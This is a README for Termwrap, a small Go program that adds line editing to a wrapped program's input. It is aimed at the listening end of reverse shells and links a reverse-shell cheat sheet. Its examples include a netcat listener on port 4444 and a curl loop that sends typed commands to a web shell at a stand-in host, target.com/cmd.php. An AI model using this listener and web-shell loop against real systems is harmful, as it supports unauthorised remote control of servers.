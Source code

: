 Termwrap
========
Termwrap is a small program to provide readline-like functionality to a child
program's stdio.  Heavily inspired by (ok, a typical Go knockoff of)
https://github.com/hanslub42/rlwrap.

Under the hood, it wraps the child program's stdio with Go's SSH library's
`terminal` package: https://godoc.org/golang.org/x/crypto/ssh/terminal.

Its intent is to make the local end of
[oneliner shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
a little nicer to use in situations where rlwrap isn't available.

For legal use only.

Quickstart
----------
```bash
go get github.com/magisterquis/termwrap
termwrap nc -nvlp 4444
```
On a linux box, listens for a connection to port 4444.

Prompt
------
In situations where no prompt is otherwise available, the `-p` flag may be used
to print one locally.
```bash
termwrap -p 'curl> ' /bin/sh -c 'while read line; do curl -svLk "https://target.com/cmd.php?c=$line"; done'
curl> ls -a
.
..
cmd.php
index.html
curl> 
```

Exiting
-------
If the input line is empty, `Ctrl+D` (EOF) or `Ctrl+C` (Not SIGINT in this
case) will terminate the program.  A line can be cleared with `Ctrl+U` or
`Ctrl+C`.  Usually two `Ctrl+C`s are enough to terminate Termwrap.  If
termwrap's child process doesn't watch for EOFs on stdin, it may be necessary
to kill the child process manually.

If the terminal is in a strange state (technically in raw mode) on exit, the
`reset` command is usually sufficient to restore it.

Tab-Completion
--------------
Rudimentary tab completion can be enabled by giving termwap the name of a file
with completion words with the `-t` flag.  This file should have one word per
line.

Windows
-------
Should probably work.  Binaries available upon request.
